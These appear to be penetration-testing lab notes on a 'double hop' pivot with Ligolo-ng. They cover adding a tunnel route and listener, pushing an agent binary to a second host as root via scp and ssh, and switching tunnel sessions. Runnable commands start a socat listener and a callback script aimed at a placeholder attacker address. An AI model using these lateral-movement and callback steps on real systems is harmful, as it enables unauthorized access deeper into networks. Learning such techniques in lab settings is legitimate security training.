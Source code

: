 ### Double hop

Using our existing agent, let's grab another one to access a third machine

#### Create route

```
[[ Ligolo~Server ]]
route_add --name ligolo --route 10.X.20.221/32

```
#### Start listener

```
[[ Ligolo~Server ]]
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601
	#Notice we use 11601 because this is the listener we started the ligolo server with
```

#### Push and execute binary

```
[[ Ligolo~SecondAgent ]]*
cd tools/ligolo-ng
	#Let us double-check that we are trying to access nginx using our ligolo interface
ip route get 10.X.20.221
scp agent root@nginx:
ssh root@nginx 'chmod +x agent'
ssh root@nginx './agent -connect lamp:11601 -accept-fingerprint <FINGERPRINT_FROM_THE_SERVER>'
```

#### Use the second agent

```
[[ Ligolo~Server ]]
	#From our first session, we stop the tunnel
stop
	#Next we move to our new session
session
    #Pick the new session
	#And restart the tunnel
start
```

#### Call in from second agent

Lets try to initiate a callback again to make sure we are calling from nginx instead of lamp.

```
[[ Ligolo~Callme ]]
lsof -i udp:4444
	socat -u udp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh linux 80 <ATTACK_BOX_IP> 4444 udp
cat /tmp/PROOF
```
